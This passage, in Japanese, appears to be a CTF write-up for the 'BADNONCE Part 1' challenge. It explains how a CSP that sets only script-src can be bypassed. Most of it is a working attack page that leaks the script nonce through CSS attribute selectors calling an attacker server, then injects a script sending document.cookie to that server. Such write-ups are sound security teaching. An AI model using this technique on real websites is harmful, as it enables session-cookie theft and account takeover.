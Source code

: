 Content Security Policy (CSP) が設定されているため、好きな JavaScript コードを実行したければ `nonce` 属性に指定された値を与えなければいけません。nonce は `$nonce = md5(session_id());` とセッション ID から生成されているため、同じセッション ID が使われている限り同じものになります。URL を送信するとクローラはそこにアクセスしますが、毎回 Cookie が初期化されるため、セッション ID も変わります。

この問題では CSP は `script-src` だけが設定されていることに着目します。`default-src` や `style-src`、`frame-src` については何も設定されておらず、このため外部の URL を `iframe` で開いたり、`<style>body { background: red; }</style>` のように CSS を設定するといったことが自由にできます。

これを利用して、[SECCON 2018 Online CTF の GhostKingdom](https://st98.github.io/diary/posts/2018-10-28-seccon-2018-online-ctf.html#xss-%E3%83%91%E3%83%BC%E3%83%88) と同じ要領で CSS の属性セレクタによって `script` の `nonce` 属性を読み出すスクリプトを書いてみましょう。

`index.php`

```html
<?php
if (!in_array($_SERVER['REMOTE_ADDR'], ['(問題サーバ)'])) {
  die('sorry');
}
?>
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>BADNONCE Part 1</title>
</head>
<body>
  <script>
  const target = 'http://(問題サーバ)/?q=';
  const code = `
  let iframe = document.createElement('iframe');
  iframe.src = 'http://(攻撃者のサーバ)/log.php?cookie=' + encodeURIComponent(document.cookie);
  document.body.append(iframe);
  `;
  let nonce = '';
  let i = 0;
  let check = () => {
    let style = '<style>';
    for (let c of '0123456789abcdef') {
      style += `script[nonce^="${nonce + c}"] { background: url("http://(攻撃者のサーバ)/log.php?nonce=${nonce + c}"); }`
    }
    style += '</style>';
    let iframe = document.createElement('iframe');
    iframe.src = target + encodeURIComponent(style);
    iframe.onload = () => {
      fetch('/log.php').then(resp => resp.text()).then(resp => {
        if (i < 32) {
          nonce = resp;
          console.log(nonce);
          i++;
          check();
        } else {
          let iframe = document.createElement('iframe');
          iframe.src = target + '%3Cscript' + encodeURIComponent(` nonce=${nonce}`) + '%3E' + encodeURIComponent(code) + '%3C%2Fscript%3E';
          document.body.append(iframe);
        }
      });
    };
    document.body.append(iframe);
  };
  check();
  </script>
</body>
</html>
```